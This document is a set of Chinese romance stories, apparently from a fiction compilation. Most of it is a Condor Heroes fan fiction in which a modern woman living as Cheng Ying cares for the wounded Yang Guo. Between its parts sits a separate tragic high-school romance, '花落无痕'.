思虑间，她却已然到了阵中。只见一个美若桃花、灿若云霞的粉衣少女正一边护着一个怀孕的中年美妇，一边仗剑而起，刺向一个凶神恶煞、满面虬髯的番僧。那番僧却只是微摆手上的铁轮，撞正那粉衣少女手中长剑，当的一声，白光闪动，长剑脱手飞起，落向林中。这场面，正是黄蓉郭芙母女恶斗金轮法王。

眼见金轮法王正要推开郭芙去拿住黄蓉，蔡小青念及黄药师的嘱托，急切出声叫道：“且慢！”便从躲藏的树林中跃了出去，伸手接住半空落下郭芙的长剑，三个人起伏，已奔到乱石堆中。金轮法王见蔡小青面目可怖已极，三分像人，七分似鬼，生平从未见过如此怪异的面貌，不禁一怔，喝问：“是谁？”

蔡小青却不答话，俯身推过一块岩石，拦在他与黄蓉之间，说道：“你便是大名鼎鼎的金轮法王么？”

“法王么？”声音却甚是娇嫩。金轮法王道：“不错，尊驾是谁？”蔡小青说道：“我是无名幼女，你自认不得我。”说话间却是将身旁另一块岩石移动了三尺，重新激活了整个阵法。

此时日落西山，树林中一片朦胧，蔡小青一边牵制着金轮法王的行动，一边强自镇定地指挥着郭芙和大小武移动岩石变换阵法，“角木蛟变亢金龙”“心月狐转房日兔”“毕月乌移奎木狼”“女土蝠进室火猪”。蔡小青每一声所叫的都是二十八宿方位，岩石移动间，便将金轮法王困住。

待等局势稍缓，蔡小青才得缓口气查看当前状况，却只见郭芙和二武围着黄蓉慰问服侍，而那个她心心念念的少年却是斜倚在乱草之中，无人理会，不知生死。蔡小青忧心如焚，恨不得立即飞身上前，却是有志难安，只得抑制住冲动，缓步走到杨过身旁，顿了一顿，慢慢弯腰，察看杨过的脸色及伤势如何。此时夜色已深，相距尺许也已瞧不清楚，蔡小青直凑到杨过脸边，但见他双目睁大，迷茫失神，面额潮红，呼吸急促，显是伤得不轻。

蔡小青是第一次这么近距离看着杨过，脑子里激动得一塌糊涂，不知道该说什么才好，也不知道该如何做才好，翻来覆去，却只有那么一句：“既见君子，云胡不喜”。

## 五、有匪君子 如切如磋 如琢如磨

从别后，忆相逢，几回魂梦与君同。

蔡小青低首俯身细细地端详着杨过，他们的距离是如此地近，咫尺之间，能清晰地听到杨过呼吸的声音，梦想照进现实的感觉是如此的奇妙，有着不可言说的梦幻般的不真实感。她怔怔地看着眼前这个美少年，柔肠百转，梦里千回曾见君，君梦几回与吾同。

杨过发出轻微的呻吟声，却是自昏迷中悠悠醒转过来。蔡小青正犹豫要不要抽身避嫌，忽地被杨过张臂一把抱住了身子，只听他喃喃喊道：“姑姑，过儿受了伤，你别走开了不理我。”

蔡小青又羞又急，微微一挣。杨过胸口伤处立时剧痛，不禁“啊哼”一声。蔡小青不敢强挣，心里酸涩难当，这才想起，怀中的这俊美少年其实早已心有所属了，自己不过是个路过的过客。强忍着渐次涌上来的泪水，只低声道：“我不是你姑姑，你放开我。”

杨过却是迷迷糊糊的，虚弱的身子整个压在了蔡小青的身上，火热的体温透过薄薄的衣裳，仿佛要烫进蔡小青的心里一般。他紧紧抱着蔡小青，凝视着她眼睛，像个无助的孩子一般哀求道：“姑姑，你别撒下我，我……我……我是你的过儿啊。”

蔡小青心中一软，“我是你的过儿啊”，这句话听起来真是又美好又残忍，如此直白地将自己归属于你，该是何等的深情，可惜他所托付真心的那个人不是你。蔡小青这才想起身为程英的尴尬，一向信奉一夫一妻制、三观很正的她，如何能下得了手去夺人所爱，只得柔声道：“我不是你姑姑。”

杨过不依不饶，拉着她手，不住哀求：“是的，是的！你……你别再撇下我不理。”蔡小青给他抱住了，羞得全身发烧，却又不敢挣开，不知如何是好。僵持之中，突然间杨过神志清明，惊觉眼前之人并非小龙女，失望已极，脑中天旋地转，便即昏了过去。

蔡小青大惊，心想他受伤极重，赶紧一股脑儿掏出黄药师这么多年秘制的灵药，对症下药让杨过服下去。药力逐渐散开来，杨过的气息稍稳，只是脸色依旧惨白，蔡小青担心他只怕有性命之忧，当下扶着他后腰，半拖半拉地走出石阵，又慢慢走出林外。

杨过伏在马背，一阵清醒，一阵迷糊，时而大喜而呼，时而痛苦呻吟，却是时时在念着小龙女的名字。蔡小青牵着马，缰绳一下一下牵扯着，连着那个人，也仿佛连着她的心，走一步，扯一下，心里就撕裂般地疼，不知不觉眼泪似断线的珍珠一般一颗颗砸了下来。

也不知哭了多久时候，蔡小青才发现已然到了自己暂居的茅屋，将杨过扶进屋里，安顿在榻上，盖上薄被，煎了草药，才怔怔地坐在窗前，一言不发。

所有无法言说的心事，潜于心底的情感伴着如水的月光，被拉得悠长悠长，如一朵半开的花儿，一阕未填完的词，岁月漂洗过的那首未央之歌。

这是怎样一种心思，蔡小青如今才懂，她出现得太迟，她出场得太淡，所有赶不上那场起始于最初的爱恋。即使如程英这般温柔似水，却带有骨子里的通透和坚强。

那么她，是否该违反这注定的命运，去言说这些未曾见过天日的心事，把那些岁月里的惦念说与他听？她只左手按纸，右手握笔，一遍一遍写着“既见君子，云胡不喜”。既然见到了这男子，我怎么还不快活？是啊，蔡小青，你已经见到了你梦寐以求的杨过，你怎么还会哭还会难过呢？不是该开心的吗？

蔡小青一遍遍地这么劝说着自己，但是眼泪还是止不住地涌出来，滴在宣纸上，晕染了那一句句本该是欣喜、现在却像是笑话的诗句，泪痕墨迹，融杂一体，却是再也分不清了。

却听背后有窸窸窣窣的响动，蔡小青心里一惊，知是杨过醒了，却不敢回头瞧去，怕满面泪痕被他瞧见了笑话，只得佯装不知，低了头一字一字继续描画着那句“既见君子，云胡不喜”。

“姐姐，原来又是你救了我性命。”杨过安静地瞧了她半晌，却突然喊出声来。蔡小青闻声心里却是一喜，原来长安道上那次匆匆一面相救之情，他居然是记得她的。

蔡小青微微一笑，说道：“也说不上救你性命，我恰好路过，路见不平……你不用婶婶长、婶婶短地叫我，我年纪没你大。”顿了一顿，又笑道：“也不知叫了人家几声‘姑姑’呢，这时改口，只怕也已迟了。”

蔡小青的这声调笑，让杨过脸上一红，知是自己昏迷之时定是将她认作是小龙女了，说不定还有什么亲密之言，越礼之举，窘得爽朗如他也是忐忑不安，只期期艾艾地道：“你……你……不见怪吧？”

蔡小青看杨过这副又可爱又窘迫的样子，忍不住噗嗤一下笑出声来，忙轻轻摇了头，强自镇定地安慰了杨过几句，也不多说。见天色渐晚，便去给杨过收拾晚饭了。

蔡小青一直是个死宅女，在桃花岛的日子费了好大的劲儿学习烹饪厨艺，做饭这个技能却是一直处于初级阶段，并且长时间处于初级阶段，折腾了大半个下午，却只做出来平常的青菜豆腐、鸡蛋小鱼，连粗陶碗也粗陋简单，却都是她新做的，纤尘不染，花了心思的。

杨过却是仿佛懂她的心思一般，一口气吃了三大碗饭，连声赞美。蔡小青脸上虽然戴着面具，瞧不出喜怒之色，但明净的双眼中却露出欢喜的光芒。她也终究是懂了为何那么多少女都倾心于杨过的原因，这般细致周到的男子，怎会不惹人喜爱。

次日杨过的伤势又好了些。蔡小青搬了张椅子，坐在床头，给他缝补衣服，将他一件破烂的长衫全都补好了。却发现衣服破烂不堪，难以穿着，于是走出室去，捧了一匹青布进来，打算依着杨过原来衣衫的样子裁剪起来。

相比她的厨艺，蔡小青在裁缝这方面的天赋显然要高了一点，好歹是多年无聊十字绣锻炼出来的水平。这样为自己心爱的人做裁缝衣的情景，明明这么普通平常，但于蔡小青而言却是有着不现实的梦幻的美感。

单身多年的她从未想过，这么平平常常爱一个人、对一个人好的感觉会是这样，心里仿佛被冬日的阳光照耀着一般，暖暖的，舒服极了。

这一天上午就这么静静过去。午后蔡小青又坐在桌边写字，杨过极想瞧瞧她到底写些什么，但求了几次，蔡小青总是不肯。她的心意要如何言说，这般被他知道后，可会觉得她轻薄？而自己这么做，到底是对还是错？蔡小青苦恼地咬紧了下唇，不属于她的爱情她到底该不该要？

她写了约莫一个时辰，写一张，出一会神，随手撕去，又写一张，始终似乎写得不合意，随写随撕，桌上堆了一堆的碎纸屑，心里也是堆了一堆的愁绪，始终定不下神来。这场爱恋多像是一个漩涡，看的人晕头转向，却又忍不住地被吸引，一步步沦陷进去，抽不出身来。

### 花落无痕

S.A.突袭

#### 花落

我是花落，高三生。

认识无痕是在高二的时候，他转来我们班，由班主任向我们介绍，而他则站在一边把薄薄的嘴唇抿成一条线，满眼的冷漠与孤傲。

我讨厌他，尽管他长得高大而秀气，还有一双流淌着星光的眼睛，但他的冷漠让人无法接受。我心中的白马王子应该是阳光型的男孩，我并不苛求他长得像无痕一样帅气，只想让他在我哭泣时耐心地劝慰我，在我高兴时陪我一起高兴；天热了，他给我买冰淇淋，天冷了，他给我披上他的外衣……

在高一时，班里有一个叫季然的男生喜欢我，他跟无痕一样，帅气、孤傲。我不喜欢他，可又不敢说出来，害怕他会伤心。于是我跟他玩起了躲猫猫，直到半年后的情人节晚上，季然拿着一大束鲜红的玫瑰出现在我放学回家的路上，我告诉了他我心中的白马王子是什么样的。

他看着我，说，你的白马王子是不存在的，不过，你去找一个保姆还是可以的。他说这话时是那样的平静，没有丝毫的波澜。

我什么也没说，只是怔怔地看着他渐行渐远，最后消失于苍凉的月华。

在他走过的路上，洒满了玫瑰花瓣……

第二天，他没上学。

第三天，他的家人到班里拿走了他的东西，并办理了转学手续。

从那以后，他便湮迹于茫茫人海，杳无音讯。

可是，他不知道，我的要求只是让他心里有我，只要如此，我的要求他不会办不到。

#### 无痕

我是无痕，我家在北京，而我的老家在江南，那个美丽的地方。

刚来这里时，我上高二，文科。

班里有个女生叫花落，很伤感的名字，她同她的名字一样，总是有着淡淡的忧伤。

花落的座位在我前面，但她很少跟我说话。她的同桌筱满倒是很爱说，总是转身跟我说话，可我不理她，因为她说要跟我做朋友，而我认为，这个世界上最容易被你欺骗的人是朋友，最容易欺骗你的人也是朋友。

我爸妈都是商人，他们各自都有很多钱，可我并不在乎这个，我只想有一个温暖的家。记得小时候，一个寂静的夜晚，爸妈的争吵声惊醒了睡梦中的我，我把房门打开一道缝，在缝中看到他们板着脸在客厅里站着。我听到他们说明天就离婚，然后爸爸把门狠狠地一摔，就出去了。我并没有像电影里演得那样哭着让妈妈把爸爸找回来，不让他们离婚。我只是将门轻轻地关上，他们的事与我无关。

我从小就居住在江南，那里有我的外婆。春天，她去播秧，我就在院上放纸鸢；夏天，吃完晚饭，她便将我揽在怀里，给我讲总也讲不完的童话；秋天，她总是笑呵呵地给我说我们一年的收成；冬天，她给我堆雪人。我的童年是多么的多彩，可是，没有父爱，没有母爱的童年又是多么的苍白！

爸妈在北京终日为钱奔波，我一年也只能见到他们一次。他们每次都会给外婆很多很多的钱，让她给我买吃的。

八岁时，外婆去世了，爸妈把我接到北京跟他们一起住。我很少跟他们说话，他们给我钱时，我总有一种寄人篱下的感觉。妈妈总是告诉我，今天她赚了几万、几十万甚至几百万，我不理她，因为在她心里，我远没有钱重要。爸爸经常喝酒，回来后就打妈妈。他们都很有钱，又急了就会拿钱一沓一沓地砸对方。我不管他们，打吧，一切与我无关。

他们离婚后，法院判我跟妈妈，我继续我的生活，他们继续赚钱。他们每个月都会给我很多钱，我将钱存起来，等着以后用这笔钱离开这里。我很怀念跟外婆在一起的日子，可是我总要长大，有些人总会在我的生命中消失。残酷的现实造就了我惯于独立的性格，我外表坚强，内心却十分脆弱。

#### 花落

我是花落。

上课铃响了，无痕还没有来，老师只管上课，对无痕的迟到不闻不问。无痕总是说，老师不会在乎他的死活。也许这就是原因吧。

我不想说我们是如何开始的，因为那并不重要，重要的是我们可以快快乐乐地在一起。我希望我能和无痕在一个没有尘埃的世界里，数着记忆的落叶，一起慢慢地老去。

无痕送给我两条小鱼，小小的鱼缸却是它们美好的天堂。无痕说，希望我们能像它们一样，在我们的世界里厮守，没有人能进来，我们也不会出去。

还有一个月就要高考了，可无痕还是迟到了，我想我应该去找他，告诉他，让他好好学习，这样我们就可以去同一所大学。对，我要去，我现在就要去，我现在一定要去！

我举手，老师问我什么事，我捂着鼻子说我流鼻血了，他挥了挥手示意我可以出去，我就走出了教室。

从大门口出去是不可能的，因为看门的那老大爷连地上有多少只蚂蚁爬到校外去都知道得清清楚楚。我记得当初无痕晚上不上自习，便从操场上的墙头翻出去回家。我也别顾及什么淑女不淑女了，干脆也爬出去算了。

刚刚爬上墙头，就看见无痕在外面，他看到我很是吃惊，忙问我在干什么。我说你少管，先把我弄下去再说。

他站到墙边，让我踩着他的肩膀下来，他那雪白的衣服上便有了两个黑黑的鞋印。他问我到底在干什么。我说我要去找他，让他好好学习。他说，我当然要好好学习，刚才是想翻墙头进去的，没想到自己没进去，反而弄出个人来。你看这衣服也脏了，我不去了。

我说不行，你不去你也得把我弄回去，我是为你才出来的，我要是回不去，耽误了课怎么办啊？

无痕说好吧，你踩着我上去，然后我进去，你再踩着我下来。

于是我踩着他上了墙头，由于重心不稳，从墙上直接摔进了学校。无痕很快就进来了，看到我的脚肿得老高，二话没说就背起我往医务室跑。

医生说只是扭伤了，不碍事。无痕一脸忧伤地看着我说，花落，以后上下学都由我接送你，这样我也就不会迟到了。

#### 无痕

我是无痕。

岁月如梭，光阴似箭。一转眼，高考到了。

我将花落送入考场，然后离开了北京。

是的，我没参加高考，因为我知道我不会考好。我从银行取了些钱，走在熙熙攘攘的大街上，人们的脸上都是寒沁人心的冷漠。这个城市如此繁华，而人们的内心却无比荒凉！

我拿着前一天我妈给我买的机票登上飞机，看着这座城市逐渐缩小，看着我跟花落共同走过的街道，泪如雨下。

我知道，花落会找我的，于是我让同学在高考结束后给她一封信。

我在江南开了一间酒吧，名为泪海。

我整天调着不同味道的酒，看着跟我同样忧郁的人。我总是会想到花落，想到我们在一起时快乐的日子。可我不能找她，我们两个在一起是不会有结果的。

有时，我也会过一些醉生梦死的生活，酒吧就由我的表妹看管。想用酒精麻醉自己，却没有作用，借酒入愁肠，相思泪又生。

> 世情薄 / 人情恶 / 雨送黄昏花易落 / 晓风干 / 泪痕残 / 欲笺心事 / 独语斜栏 / 难！难！难！  
> 人成各 / 今非昨 / 病魂常似秋千索 / 角声寒 / 夜阑珊 / 怕人寻问 / 咽泪装欢 / 瞒！瞒！瞒！

#### 花落

我是花落。

当我拿到无痕的信时，隐约间感到了什么，打开一看，信是这样写的。

> 花落：  
>   
> 请原谅我的不辞而别，我知道你会很伤心，可如果我不走，你会更伤心。我相信你会考一个好成绩，而我，只能得到少得可怜的分数。所以，我们在一起是不会有结果的，游鱼对飞鸟的痴恋不会有快乐的结果，癞蛤蟆不能与天鹅共舞，我又怎能配得上你？  
>   
> 其实我早就知道会有这样的结局，所以我并没有真正地在乎过你。那些日子也不过是一场迷人的烟花，无论多么灿烂，最后必将归为空寂。我欺骗了你，其实我根本就不喜欢你，我玩弄了你的感情，所以现在我要离去，不说再见，因为我们不会再见面。我到了江南，物换人非，一切都会忘记。  
>   
> 我知道你看到这里会哭的，哭吧，让你流泪的人不值得你流泪，因为值得你流泪的人不会让你流泪！所以，我是不值得你流泪的人。  
>   
> 这个世界上的事谁都难以预料，两个人相遇未必能相聚，相聚未必能相识，相识未必能相知，相知未必能相许。我们的故事就到这里结束吧，谢谢你陪着我写到了这里，也谢谢你没有发现我是在欺骗你。理想和现实是那样的遥远，没有尘埃的世界是不存在的，谁都不会跟你在那里厮守！  
>   
> 浮生狂歌笑明月，万里独行一剑轻。我走了，你多保重！

#### 无痕

黄昏，一抹残阳凄艳如血，洒下满目的金黄。

我坐在操场边的槐树下，看完这封信，发现泪水早已流下。我听见心中某样东西破碎的声音，声音很小，而我却感到尖锐的疼。风轻轻地吹过，一树重重叠叠的槐花簌簌地飘落，我的肩上洒满了微黄的花瓣。

- 你走的时候槐花已开始飘落
- 我要一个人在这个世界里面对寂寞
- 我仍清楚地记得你当初的承诺
- 而如今你的爱却随风匆匆而过
- 我决定我会一生都为你执著
- 因为我对你的爱无法割舍
- 我想和你一起看槐花飘落
- 轻声唱和直到日落
- 槐花落，槐花落
- 槐花如雪随风过
- 未语泪先落

无痕一定是在骗我，他没有玩弄我的感情，他一定是有什么事！我要去找他，向他问个明白。

### 第三人称

花落去了江南，到处寻找无痕，蒙蒙的雨巷，焦灼的目光，还有那颗不变的心。

一个星期过去了，花落还是没有找到无痕。乘着船，看着岸上过往的人，心中不免有些失落。她看到了一家酒吧，名为泪海。她不由自主地走进去，推开门，里面全是蓝色的装饰，在灯光不断的晃动中，好像置身于大海中一样。正对着门，墙上写着“这里是一片泪海”。调酒师是一个白衣男孩，他手里正调弄着一杯鸡尾酒，而男孩旁边坐着一位花枝招展的女孩。

花落向男孩走去，拿过他手中的鸡尾酒，说：“无痕，我找到你了。”

男孩诧异地看着她，说：“对不起，小姐，你认错人了。”

花落肯定地说：“没有，我没认错，你就是无痕，为什么你不敢认我？我知道你心里有我，你根本就没有玩弄过我的感情，为什么你要这样做？”

男孩微微低下头，说：“小姐，我叫夜落，你认错人了……”

这时，旁边的女孩拉起夜落的手对花落说：“你看清楚了，他是我男朋友，心里怎么会有你？”

花落怔怔地看着夜落，夜落依旧没有抬头，只淡淡地说：“小姐，你真的认错人了。”

花落默默地转身离去，泪水划过脸庞。

可她没有看到，夜落的眼睛是湿润的……

### 夜落

我叫夜落，其实，我是无痕。

花落为我翻墙那天，我迟到是因为我去了医院，我得了血癌，晚期。

我离开了她，没想到她会找到我，多亏那天表妹帮忙，花落才没有继续追问。看着她转身离去，我心如刀绞。我也不想让她痛苦，可如果不这样，她会更痛苦！长痛不如短痛，也许，让她恨我，可以让她好受一点。

- 月依旧 / 星依旧 / 奈何影形瘦 /
- 三百六十五个夜与昼 / 愁愁愁 / 谁道痴情地久 /
- 惆怅系心头
- 残月落枝头 / 冷风咽咽 / 无聊孤独友 /
- 三百六十五个夜与昼 / 谬谬谬 / 知音难觅空相思 /
- 命运我为仇

### 寻情记（四）

妖娆

#### 【陆】春心莫共花争发，一寸相思一寸灰

> 人生自是有情痴，此恨不关风与月。

蔡小青拎着粽叶，心不在焉地包着粽子。杨过说他想吃粽子了，她便忙不迭地赶早去集市买了材料来包，就像所有沉浸在恋情里的女生一般，忙不迭地倾尽自己所有，献媚一般讨好着那个爱恋着的人，所有的辛苦忙碌都染上了粉色的甜蜜的滋味。

好在从小跟妈妈学过包粽子，不然不会包，那现在可就糗大了。蔡小青边感慨着，边细细地蒸好了糯米，拌了馅料，甜的是猪油豆沙，咸的是火腿鲜肉，翠的是新鲜的荷叶。蔡小青纤细的敲代码编程序的手指，却在灵活地裹粽子，不一会儿绿色的粽子便铺满了整张案板。

蔡小青赶在天黑之前蒸好了两笼粽子，殷勤周至地端到了不能下床的杨过跟前，细致地服侍着。粽叶的清香混了食物的味道，端的是美味无比，杨过一面吃，一面赞不迭口。蔡小青却是不敢抬头去看他，怕一看，便乱了心绪。

杨过却是怔怔地看着眼前这个青衣的、相貌奇丑，却有着一双让人心安的眼睛的姑娘，微微有些呆了。蔡小青是这般的温柔体贴，三分慈和中又带着三分敬重，令人既安心，又愉悦，与他所识别的女子全不相同。她不似陆无双那么刁钻活泼，更不似郭芙那么骄蛮白皙。耶律燕是豪爽不羁，完颜萍是楚楚可怜。至于小龙女，初时冷若冰霜，淡不关心，到后来却又是情之所钟，生死以之，乃是超于极端的性儿。

只有这位青衫少女却是斯文温雅，殷勤周至，知他记挂“姑姑”，就劝他好好养伤，痊愈后立即前去寻找。但觉和她相处，一切全是宁静平和。

当下两人俱是无话，蔡小青便转回身，伏在案上，又提笔写字。杨过道：“婶婶，你贵姓？”蔡小青却不知该如何回答，自己是该姓蔡呢，还是姓程？只得低声道：“你别问这个问那个的，还是安安静静地躺着，不要胡思乱想，内伤就好得快了。”

杨过却是小孩子性起，赌气道：“好罢，其实我也明知是白问，你连脸也不让见，姓名更是不肯说的了。”蔡小青又道：“我相貌很丑，你又不是没见过。”杨过道：“不，不！那是你戴了人皮面具。”

闻言，蔡小青心里顿时一阵酸楚，即使她拥有如花美貌，那又如何，他的心里，早已有了她，还会有她的位置么。微酸说道：“若是我像你姑姑一般好看，我干么又要戴面具？”杨过听她称赞小龙女美貌，极是欢喜，问道：“你怎知我姑姑好看？你见过她么？”蔡小青淡淡道：“我没见过。但你这么魂牵梦萦地想念，她自是天下第一的美人儿了。”

杨过叹道：“我想念她，倒也不是为了她美貌，就算她是天下第一丑八怪，我也一般想念。不过……不过要是你见了她，定会更加称赞。”

这番话倘若给小龙女听了，心里不知该有多甜蜜，可此时此刻听这话的却是蔡小青，那个在少女时代就将一腔情丝都系在杨过这个虚拟而完美的人物身上的剩女蔡小青，心中那滋味更是难受，似火烧火燎一般，却压抑下情绪道：“定是这样。她不但美貌，待你更是好得不得了。”说着又伏案写字，却有泪水忍不住地一滴滴砸下，晕染了墨迹。

杨过听蔡小青话声和身材举止，也不过十七八岁，但她对待杨过不像是长姊视弟，直是母亲一般慈爱温柔。杨过丧母已久，时至今日，依稀又是当年孩提的光景，心中又是感激，又是诧异，忍不住问道：“婶婶，干么你待我这么好？我实在是当不起。”

蔡小青微微颔首，轻声道：“做一件衣衫，那有甚么好了？你舍命救人，那才叫不易呢。”正说话间，却偷偷看到杨过被子底下微微露出的纸片，墨痕仍在，细细地写了“既见君子”四个字。

蔡小青心里一惊，写的这些字还是被他瞧见了，顿时顾不得掉泪了，羞红了脸，将余下的笺纸搓成一团，拿到室外点火烧化了。

“既见君子，云胡不喜”，蔡小青摸着脸上戴着的五陌面具，这才深深体会到程英为何要戴着它了。与其说程英戴着面具是为隐藏容貌，倒不如说她隐藏的是自己的喜怒哀乐。这样悲喜都只是自己一个人的事儿，与他人无忧。

其实，程英并不是悲情女子，即使悲伤，她像是一株空谷幽兰，芳香四溢却不张扬，优雅逸通却不谄媚。连最深的执念里，都有着骨子里的优雅和风度，如此波澜不惊。

蔡小青回进室来，在窗边伫立片刻，吹灭了蜡烛。月光淡淡，从窗中照射进来，铺在地下。杨过叫道：“姊姊。”蔡小青却不答应，慢慢走了出去。

到了隔壁的琴室，蔡小青取了挂在壁上的玉箫，好些天没用过，拂去沾染的微尘，拾在手，便呜呜咽咽地吹奏起来。箫中吹的是“无射商”调子，却是一曲“淇奥”。这首琴曲温雅平和，但重点却是在那翻来覆去的五句上：“瞻彼淇奥，绿竹猗猗，有匪君子，如切如磋，如琢如磨。”

蔡小青寄居桃花岛的时光，曾经研读过《诗经》，知道这句的意思：“看那淇水河湾，翠竹挺立修长。有位美貌君子，骨器象牙切磋，翠玉奇石琢磨。”这是形容一个男子姿容出色、品行高洁的。配着温雅平和的曲子，或高或低，忽徐忽疾，始终是这五句的变化，却颇具缠绵之意。

正吹奏入神之际，忽然听到旁边的树丛中有人低声吟和：“瞻彼淇奥，绿竹猗猗……”清朗而磁性，赫然是杨过的声音。蔡小青一慌神，箫声断绝，心内暗悔唐突：“我吹箫本是为了排遣情思，他却出声低吟，显得明白了我的心思，那可太羞人了。”

于是蔡小青躲在屋里，一宿无眠，只是看着漫天的星光，直至日头东升，霞光初现。

次日清晨，蔡小青送早饭进来，只见杨过脸上戴了个跟自己一模一样的人皮面具，不禁一呆，笑道：“你怎么也戴这东西了？”杨过道：“这是你送给我的啊，你不肯显露本来面目，我也就戴个面具。”

蔡小青心里暗恼，一方面恨自己这般想爱不敢爱，一方面却也怪杨过这般暧昧狂狷，嘴上却只淡淡地道：“那也很好。”说了这句话后，放下早饭，转身出去，这天一直就没再跟他说话。

杨过惴惴不安，生怕得罪了她，想要说几句话赔罪，她在室中却始终没再停留。到得晚间，蔡小青待杨过吃完了饭，进室来收拾碗筷，正要出去，杨过道：“姊姊，你的箫吹得真好听，再吹一曲，好不好？”

蔡小青微一沉吟，道：“好的。”出室去取了玉箫，坐在杨过床前，幽幽吹了起来。这次吹的是一曲“迎仙客”，乃宾主酬答之乐，曲调也如是雍容揖让，肃穆大宾。杨过心想：“原来你在箫声之中也带了面具，不肯透露心曲。”

#### 【柒】留人间多少爱，迎浮生千重变

忍把千金酬一笑，毕竟相思，不似相逢好。

蔡小青低首吹箫，杨过只静静听着，却也不说话不点评，一时之间，两人俱是无言，气氛略显尴尬。箫声中忽听得远处脚步声响，有人疾奔而来。蔡小青放下玉箫，走到门口，看见一人奔向屋前，正是陆无双。一身白衣的陆无双来不及歇口气儿，便气喘吁吁地催道：“表姊，那大魔头查到了我的踪迹，正一路寻来，咱们快走！”

蔡小青摇摇头道：“有人受了伤，在这儿养伤，我们一时半会儿走不了。”陆无双奇道：“是谁？”蔡小青犹豫了一下，轻声道：“他可是你的救命恩人，你这么快就不记得了么？”语气里含着淡淡的酸味。陆无双却无暇分辨，只欢喜地叫道：“傻蛋！他……他在这儿！”说着冲进门去。

月光下只见她喜容满脸，叫道：“傻蛋，傻蛋！你怎么寻到了这儿？这次可轮到你受伤啦。”杨过道：“媳妇……”只说出两个字，想起身旁温雅端庄的青衫少女，登时不敢再开玩笑，当即缩住，转口问道：“李莫愁怎么又找上你了？”

陆无双道：“那日酒楼上一战，你忽然走了，我表姊带我到这儿养伤。其实我的伤早就没事啦，我气闷不过，出去闲逛散心，当天就撞到了两名丐帮的化子，偷听到他们说大胜关在开什么英雄大会。我便去大胜关瞧瞧热闹，哪知这会已经散了。我怕表姊记挂，赶着回来，在前面镇上的茶馆外忽然见到了那女魔头的花驴，她驴子换了，金铃却没换……”说到这儿，声音已不禁发颤，续道：“总算命不该绝，若是迎面撞上，表姊，傻蛋，这会儿可见你们不着啦。”

蔡小青悄然静立一旁，看着杨过和陆无双欢喜相逢的场面，第一次如此深刻地感觉到自己是个局外人。如今看来，即使没有小龙女，杨过也未必会爱上她这个程英。只单论陆无双，在杨过心里怕是都要比自己这个寡淡清冷的程英要重上几分？若真想夺得杨过的特别眷顾，当真是比上天入地还要难上三分。

而感情这种事情最是无奈，其实细细思索，自己是真的爱杨过么？即便是爱，那自己究竟是爱着深爱小龙女的杨过，还是会爱着四处留情的杨过呢？这种爱总似没有根基的浮萍一般，看着洋洋洒洒铺满了整个心湖，却是随波逐流，无法根深蒂固，虚幻得紧。

蔡小青正出神之际，陆无双突然伸出双手，将自己和杨过脸上的人皮面具同时扯脱，说道：“那魔头不久就要到来，你们两个还戴这劳什子干甚么？”

杨过眼前陡然一亮，见眼前这青衫少女脸色晶莹，肤光如雪，鹅蛋脸儿上有一个小小酒窝，虽不及小龙女那么清丽绝俗，却也是个极美的姑娘。

陆无双道：“她是我表姊程英，桃花岛黄药师的关门小弟子。”杨过作揖为礼，道：“程姑娘。”蔡小青微微颔首还礼，道：“杨少侠。”

陆无双道：“这紧急关头，你两位还这般多礼干甚么？”杨过道：“李莫愁后来见到你了？”陆无双道：“你倒想得挺美！要是给她见到了，你又不来救我，我还能逃脱她的毒手？我一见到花驴颈中的金铃，立即躲在茶馆屋后，大气也不敢喘一口。只听得那魔头在向那茶馆掌柜的打听，有没见到两小姑娘，一个有点儿跛，另一个是个丑八怪。表姊，她说的是你，可不知道你恰好是丑八怪的对头，是位美人儿……”

蔡小青脸上微微一红，道：“你别胡说，可让杨少侠笑话。”杨过道：“少侠什么的称呼，可不敢当，你叫我杨过便是。”

陆无双嗔道：“你一见我表姊，就服服贴贴的，连名带姓都说了，跟我却偏装神弄鬼地骗人。”杨过微笑道：“你叫我傻蛋，我便听你话做傻蛋，那还不够服服贴贴吗？”陆无双小嘴一撅，道：“慢慢再跟你算账。”转头向程英道：“表姊，你带了这面具儿，常到镇上去买盐米物品，镇上的人都认得你。茶馆掌柜也决想不到李莫愁这样斯文美貌的出家人会不怀好意，自然跟她说了咱们的住处。那魔头谢了，又问镇上什么地方可以借宿，便带了法师姊去找宿处。她一向害人总是天刚亮时动手，算来还有三个时辰。”

蔡小青先睹得二人嬉笑打闹，心中感慨万千，当初的一些迷惑果然也有了定论。一听此言，心下有了计较，便道：“是！那日这魔头到表妹家，便是寅末卯初时分。”三人说起当年李莫愁如何下毒手害死陆无双父母之事，才知三人幼时曾在嘉兴相会，程英和陆无双都还去过杨过所住的破窑，想到儿时居然曾有过这番遇合，心头不由得均是平添温馨之意。

杨过道：“这魔头武功高强，就算我并未受伤，咱三个也是斗她不过的。还是外场点灯笼，照旧，咱们这就溜之大吉罢。”蔡小青点点头道：“眼下还有三个时辰。杨兄的坐骑脚力甚好，咱们立时就逃，那魔头未必追得上。”陆无双道：“傻蛋，你身上有伤，能骑马么？”杨过又道：“不能骑也只得硬挺，总好过落在这魔头手中。”

陆无双道：“咱们只一匹马。表姊，你陪傻蛋向西逃，我故布疑阵，引她往东追。”蔡小青脸上微微一红，摇头道：“不；你陪杨兄。我跟李莫愁并无深仇大怨，纵然给她擒住，也不一定要伤我；你若落入她手，那可有得受的了。”陆无双道：“她冲着我而来，若见我和傻蛋在一起，岂非枉自累了他？”表姊妹俩你一言，我一语，互推对方陪伴杨过逃走。

杨过听了一会，甚是感动，心想这两位姑娘都是义气干云，危急之际甘心冒险来救我性命，纵然我给那魔头拿住害死，这一生一世也不算白活了，却也拿捏不定主意。

只听陆无双道：“傻蛋，你倒说一句，你要我表姊陪你逃呢，还是要我陪？”杨过还未回答，程英道：“你怎么傻蛋长、傻蛋短的，也不怕杨兄生气。”陆无双伸了伸舌头，笑道：“瞧你对他这般斯文体贴，傻兄定是要你陪的了。”她把“傻蛋”改称“傻兄”，算是个折衷。

蔡小青面色白皙，极易脸红，给她一说，登时羞得颜若玫瑰，微笑道：“人家叫你媳妇儿，可不是么？你媳妇儿不陪，那怎么成？”

这一来可轮到陆无双脸红了，三人倒不似初时那么害怕担忧了，只是谁留谁走依旧无法决定。

#### 【捌】问世间情为何物，直教人生死相许

欢乐趣，离别苦，就中更有痴儿女。

蔡小青此时心意已定，准备让杨陆二人先行离开，自己留下来单独对付李莫愁。即使不能生还，也不过是离开这个世界的另一个方式。而自己，总归是要离开，也终是到了该离开的时候了。

